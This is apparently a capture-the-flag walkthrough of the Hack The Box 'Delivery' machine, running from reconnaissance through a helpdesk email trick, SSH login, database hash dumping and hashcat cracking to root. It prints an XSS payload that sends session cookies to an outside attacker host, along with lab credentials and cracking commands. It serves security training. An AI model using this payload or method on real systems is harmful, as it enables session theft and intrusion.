# Delivery

## Recon

`nmap -sV -T4 -p- 10.10.10.222`

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
```



From the website, there are two links:

* `http://delivery.htb:8065/`
* `http://helpdesk.delivery.htb/`

Add the following to the `/etc/hosts` file:

```text
10.10.10.222    delivery.htb
10.10.10.222    helpdesk.delivery.htb
```

Note the information here:



We don't have a `@delivery.htb` account, so we won't be able to access the MatterMost server just yet.

### helpdesk.delivery.htb



When submitting a ticket, the system is vulnerable to XSS.

#### 1st Try: Cookie Stealing

```javascript
<script> var i = new Image(); i.src = "http://10.10.14.16/log.php?q=" + escape(document.cookie); </script>
```



Unfortunately this doesn't work, anything with `<script></script>` is removed.

#### 2nd Try: Look Closer

Note that after creating a ticket, it says:



**"If you want to add more information... just email ..."**

So does this email simply forward everything it receives to the ticket?

### delivery.htb:8065

This is a MatterMost server. I went ahead and created an account with 7317917@delivery.htb as the email address. This was previously not possible because

1. We needed a `@delivery.htb` email and
2. We needed email verification

The email does indeed forward everything to the ticket content:



By navigating to the link in the email, we can verify our account.



And we can log in to view some sensitive information:



## Foothold

We can use the `maildeliverer:Youve_G0t_Mail!` credential combination to authenticate and obtain SSH access to the server.

### User Flag

Right after we authenticate in, we are greeted by the `user.txt` flag.



## Privesc

After a bit of exploring:

`cat /opt/mattermost/config/config.json`



Under the `SqlSettings`, the `mmuser:Crack_The_MM_Admin_PW` is used for the `mysql` database credentials. We can login to the 'local' MariaDB server:

`mysql -u mmuser -p` \(`-u USERNAME -p`, then enter the password when prompted\)



### MariaDB

`SHOW DATABASES;`



Use the `mattermost` database: `USE mattermost;`

Dump `mattermost.Users` table: `SELECT * FROM Users;`

I copied this into a text file.



Compile the password hashes into a `users.hash` file:

```text
$2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK
$2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
$2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq
$2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm
```

Remember the message in the MatterMost channel earlier? Most of these passwords should be variations of "PleaseSubscribe!"

We were also hinted to use hashcat rules.

Result of Googling: [https://www.4armed.com/blog/hashcat-rule-based-attack/](https://www.4armed.com/blog/hashcat-rule-based-attack/)

Rules file: `cp /usr/share/hashcat/rules/best64.rule rules`

Running hashcat on my host MacOS: `hashcat -m 3200 users.hash wordlist -r rules` \(since hashcat requires a _GPU_\)

Show cracked hash: `hashcat -m 3200 users.hash --show`

```text
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

Cross-checking with the `users.hash` file, the `root` password is `PleaseSubscribe!21`.

### Root Flag

From the `maildeliverer` bash shell: `su`, then use the `PleaseSubscribe!21` password.



